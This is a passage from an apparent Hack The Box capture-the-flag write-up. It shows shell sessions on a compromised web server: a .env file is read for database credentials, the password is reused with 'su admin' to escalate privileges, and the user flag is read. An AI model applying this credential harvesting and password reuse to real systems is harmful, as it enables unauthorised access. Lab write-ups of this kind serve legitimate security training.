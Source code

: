 We can see here that it reads something from the files and it reads DB_HOST, DB_DATABASE, DB_USERNAME and DB_Password from the .env file, so lets see the env file

```
drwxr-xr-x 10 root root 4096 Sep 11 21:20 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
drwxr-xr-x  5 root root 4096 Sep 11 21:20 VPN
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

so now lets do some basic privilege escelation

```
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

su admin
SuperDuperPass123
id
Password: uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

Time to see admin's home directory and get the user flag

```
cd
pwd
/home/admin

ls -la
total 32
drwxr-xr-x 4 admin admin 4096 Jun  6 10:22 .
drwxr-xr-x 3 root  root  4096 Jun  6 10:22 ..
lrwxrwxrwx 1 root  root     9 May 26 22:53 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26 22:53 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 22:53 .bashrc
drwx------ 2 admin admin 4096 Jun  6 10:22 .cache
-rw-r--r-- 1 admin admin  807 May 26 22:53 .profile
drwx------ 2 admin admin 4096 Jun  6 10:22 .ssh
-rw-r----- 1 root  admin   33 Sep 12 05:33 user.txt

cat user.txt
97bd1835376fefaf119968bc0ec4f737
```
